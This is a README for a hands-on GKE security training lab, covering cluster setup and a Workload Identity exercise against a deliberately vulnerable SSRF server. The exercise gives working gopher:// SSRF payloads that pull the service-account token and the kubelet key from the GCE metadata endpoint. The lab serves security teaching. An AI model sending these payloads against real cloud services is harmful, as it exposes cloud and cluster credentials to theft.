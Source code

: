 # training-gke-security
This repository is for training of GKE Security

[![Open in Cloud Shell](http://gstatic.com/cloudssh/images/open-btn.png)](https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/rung/training-gke-security&page=editor&cloudshell_tutorial=README.md)

### Preparation
- Set project id
```bash
gcloud config set project PROJECT_ID
```

- Enable GKE API
```bash
gcloud services enable container.googleapis.com
```

- Create GKE Cluster
```bash
gcloud container clusters create gke-security-testing --zone us-central1-a --machine-type g1-small --num-nodes 3 --async
```

- Get a credential of GKE
```bash
gcloud container clusters get-credentials gke-security-testing --zone=us-central1-a
```

- Testing
```
kubectl get node
```

### Exercise 1: PodSecurityPolicy


### Exercise 2: Workload Identity
- Apply k8s manifest
```
kubectl apply -f manifest -R
```
(Please don't expose deployment on the Internet through Service.)

- Port-forward
```
kubectl port-forward deployment/ssrf-server 8080:8080
```

- Open Web Preview
<img src="img/web-preview.png" width="320">

- Input url (testing)
```
https://www.google.com
```

- Input malicious url
  - Get instance token (doesn't use it in this training)
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/service-accounts/default/token HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```

  - Get kubelet key
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/attributes/kube-env?alt=json HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```
It contains "KUBELET_KEY".

### (After this training) Clean cluster
```bash
gcloud container clusters delete gke-security-testing --zone us-central1-a --async
```
